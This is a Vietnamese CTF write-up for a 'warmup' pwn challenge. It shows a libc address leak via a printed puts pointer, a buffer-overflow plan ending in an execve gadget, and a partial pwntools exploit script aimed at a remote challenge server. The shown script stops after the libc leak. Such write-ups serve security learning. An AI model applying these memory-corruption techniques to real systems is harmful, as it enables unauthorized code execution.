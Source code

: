 ### 1. Leak libc
Ở ngay đầu chương trình, sau hàm `helper()`, nó đã print cho luôn mình địa chỉ **puts** nên ta chỉ cần trừ đi offset là ra libc base:
```py
puts = int(rl()[0:-1], 16)
libc.address = puts - libc.sym.puts
info(f"Libc: {hex(libc.address)}")
```

### 2. BOF
Sau khi input vào biến `name` bằng "XD":

![image](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FJGK9O9RgeCP7yW9iJ1CJ%2Fuploads%2FQsO3bajsHFdvJrhKBTju%2Fimage.png?alt=media&token=4e5abec8-5f6a-46ca-a741-09ef4a7364f1)

![image](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FJGK9O9RgeCP7yW9iJ1CJ%2Fuploads%2FzDnX9Ie30mhZWfc1CltE%2Fimage.png?alt=media&token=6ae1b099-9a48-4904-b92f-47f88048433c)

Tìm gadget:

![image](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FJGK9O9RgeCP7yW9iJ1CJ%2Fuploads%2F9W5PPrJmmd9gppXeNqE6%2Fimage.png?alt=media&token=a08d5dd1-3409-493d-8d56-5b0cec1df15a)

Payload mẫu:

`payload = padding + (*name + 0xXX) + execve gadget`

***XX: bất cứ giá trị nào sao cho `*name + 0xXX == NULL`**

Full payload:
```py
#!/usr/bin/python3

from pwn import *

exe = ELF('warmup_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
ld = ELF('ld-linux-x86-64.so.2', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
            b*0x0000000000401281

        c
        
        ''')
        input()


if args.REMOTE:
    p = remote('172.210.129.230', 1338)
else:
    p = process(exe.path)
# GDB()

puts = int(rl()[0:-1], 16)
libc.address = puts - libc.sym.puts
```